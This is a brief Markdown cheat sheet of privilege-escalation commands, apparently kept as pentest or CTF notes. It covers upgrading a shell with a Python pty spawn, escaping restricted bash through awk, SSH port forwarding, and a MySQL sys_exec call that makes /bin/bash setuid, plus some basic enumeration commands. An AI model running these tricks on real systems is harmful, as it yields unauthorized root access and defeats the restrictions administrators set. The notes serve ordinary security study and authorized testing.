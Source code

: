 # PrivEsc

/!\ To get a nice TTY :
```python -c 'import pty;pty.spawn("/bin/bash")'```
CTRL + Z
```stty raw -echo``` 
## Linux

### Checklist

* Checking sudo : ```sudo -l```
* Checking netstat : ```netstat -laputen```
* Checking process : ```ps -elf```
### Escaping rbash

```awk 'BEGIN {system("/bin/sh")}'```

### SSH Port fowarding 

Service listen on local on port 1234.

```ssh user@remotemachine-L 80:localhost:1234```

Now naviguate to localhost:80
### Binaries

Binaries that can be exploited : https://gtfobins.github.io

### MySQL

Execute command : ```mysql -u [user] -p -e "COMMAND HERE"``` 

Execute command as MySQL process owner : ```mysql> SELECT sys_exec('chmod u+s /bin/bash');``` 

## Windows

### Simple Tricks

* ```dir /ah``` to display hidden files
